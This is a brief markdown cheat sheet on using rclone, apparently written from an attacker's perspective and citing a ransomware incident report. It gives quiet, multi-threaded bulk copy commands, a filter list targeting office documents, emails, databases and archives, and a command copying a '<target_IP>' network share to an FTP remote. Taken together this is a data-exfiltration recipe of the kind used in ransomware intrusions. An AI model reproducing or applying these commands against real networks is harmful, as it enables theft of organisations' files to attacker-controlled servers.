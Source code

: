 # RClone

## 01 - Create Config

TODO: Fill more information

### 1.1 - Syntax

The syntax usage

`> rclone config create <remote_name> <remote_type> <key_1> <value_1> <key_2> <value_2> <key_n> <value_n>`

You can specify the path to save configuration file that has credentials that is ready to upload the files

`> rclone config --config my_remote_config.conf`

## 02 - Upload Files

### 2.1 - Usage

#### 2.1.1 - List files

```
> rclone ls <remote_name>:

> rclone sync -P <remote_name>:file.txt .
```

#### 2.1.2 - Copy files

```
> rclone copy --max-age <n>y [<drive_letter>:]/path/to/local/directory <remote_name>:/path/to/remote/directory -P -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 --config my_remote_config.conf
```

#### 2.1.3 - Filter

```
--max-age

--max-size

--filter="+ *.pdf" --filter="- *"
```

```
 --filter-from filter_extensions.txt
+ *.rar
+ *.doc
+ *.docx
+ *.xlsx
+ *.xlsb
+ *.mp4
+ *.ppt
+ *.csv
+ *.7z
+ *.eml
+ *.msg
+ *.db
+ *.rtf
+ *.xls
+ *.png
+ *.jpeg
+ *.jpg
- *
```

#### 2.1.4 - Log Files

```
-P --log-level INFO --log-file transfer_log.txt
```

### 2.2 - Use Cases

TODO: Provide more use cases

- FTP Server

`> rclone.exe copy "\\<target_IP>\<share_name>" ftp_server:<path/to/directory> -q --ignore-existing --auto-confirm --multi-thread-streams 3 --transfers 3`

---
## References

- [The DFIR Report: Malicious ISO File Leads to Domain Wide Ransomware](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/)

- [TechWiki: RClone Filtering](https://techwiki.co.uk/RClone_-_Filtering)